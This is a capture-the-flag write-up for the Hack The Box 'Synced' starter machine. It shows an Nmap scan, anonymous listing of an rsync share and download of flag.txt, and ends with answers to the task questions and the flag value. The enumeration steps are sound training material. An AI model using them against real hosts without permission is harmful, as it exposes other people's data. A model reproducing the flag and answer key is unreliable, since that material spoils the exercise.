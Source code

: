 ```yaml
---
title: HackTheBox Synced Writeup
authors: Samarth
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Linux, Resync, Protocols, Reconnaissance, Anonymous/Guest Access]
math: true
mermaid: true
---
```


![Synced-HTB](/assets/images/starting-point/Synced-HTB/banner.png)

## TL;DR

This writeup is based on the [__Synced__](https://app.hackthebox.com/starting-point){:target="_blank"} machine, an easy-rated Linux box on Hack The Box. After scanning the target, I found that port `873` was open, corresponding to the `rsync` service. Upon enumerating the `rsync` service, I discovered the `public` module, labeled as an anonymous share. I accessed this module and found a file named `flag.txt`. After downloading and reading the file, I found the flag inside.

## Scanning Network

I began by performing an Nmap scan, which revealed open port `873`, corresponding to `rsync`. Here are the results from the Nmap scan:

```bash
 nmap -sC -sV -A -T4 -Pn 10.129.228.37 -oN scan/normal.scan 
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-16 13:50 IST
Nmap scan report for 10.129.228.37
Host is up (0.21s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
```

While inspecting the Nmap output, I identified the rsync service running on port `873`.

`rsync` is a powerful file transfer and synchronization tool commonly used for efficiently copying and syncing files across machines or directories. It’s known for its speed, flexibility, and ability to only transfer differences (incremental updates) between the source and the destination.

## Enumeration

Let's try to connect to the target IP address and check if anything interesting is available.

The command `rsync -av --list-only rsync://10.129.228.37:873/` connects to the `rsync` server at IP `10.129.228.37` on port `873` and lists the available files and directories without transferring any data. The `-a` flag preserves file attributes, `-v` shows detailed output, and `--list-only` ensures no actual transfer occurs.

```bash
rsync -av --list-only rsync://10.129.228.37/    
public         	Anonymous Share
```

The output indicates that the `rsync` server at `10.129.228.37` has an accessible module named `public`, which is labeled as an "Anonymous Share." This suggests that the `public` directory is likely available for anonymous access, meaning no authentication is required to access its contents. The module name (`public`) suggests it may be used for sharing files without restrictions. You can now explore or interact with this module further if you want to download files from it or check for write permissions.

## Exploitation

Let's try accessing `public` (Anonymous Share).

```bash
rsync -av rsync://10.129.228.37/public/
receiving incremental file list
drwxr-xr-x          4,096 2022/10/25 03:32:23 .
-rw-r--r--             33 2022/10/25 03:02:03 flag.txt
```

The `public` module contains the `flag.txt` file. Let's download the file and read its content.


```bash
rsync -av rsync://10.129.228.37/public/flag.txt .
receiving incremental file list
flag.txt

sent 43 bytes  received 135 bytes  14.24 bytes/sec
total size is 33  speedup is 0.19

cat flag.txt 
72eaf5344ebb84908ae543a719830519
```

## Tasks

### What is the default port for rsync?

```plaintext
873
```

### How many TCP ports are open on the remote host?

```plaintext
1
```

What is the protocol version used by rsync on the remote machine?

```plaintext
31
```

### What is the most common command name on Linux to interact with rsync?

```plaintext
rsync
```

### What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

```plaintext
None
```

### What is the option to only list shares and files on rsync? (No need to include the leading -- characters)

```plaintext
list-only
```

### Submit root flag

```plaintext
72eaf5344ebb84908ae543a719830519
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.